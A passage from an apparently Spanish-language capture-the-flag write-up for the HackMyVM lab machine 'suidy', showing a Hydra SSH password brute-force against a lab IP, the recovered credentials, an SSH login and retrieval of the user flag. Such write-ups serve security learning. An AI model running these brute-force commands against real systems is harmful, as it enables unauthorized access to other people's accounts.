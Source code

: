 ```bash
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```bash
kali :: Documents/hackmyvm/suidy » sudo hydra -L usernames.txt -P passwords.txt ssh://10.38.1.34  
[sudo] password for fafi: 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-18 12:00:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking ssh://10.38.1.34:22/
[22][ssh] host: 10.38.1.34   login: theuser   password: thepass
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-18 12:00:52
```
### Credenciales

`theuser:thepass`

## Flag de usuario theuser

```bash

kali :: Documents/hackmyvm/suidy » ssh theuser@10.38.1.34 

theuser@10.38.1.34's password: thepass
Linux suidy 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 27 00:41:28 2020
theuser@suidy:~$ ls
user.txt
theuser@suidy:~$ cat user.txt 
HMV23*****
```

## Binario encontrado en /home/suidy

```bash
theuser@suidy:/home/suidy$ ls
note.txt  suidyyyyy
```

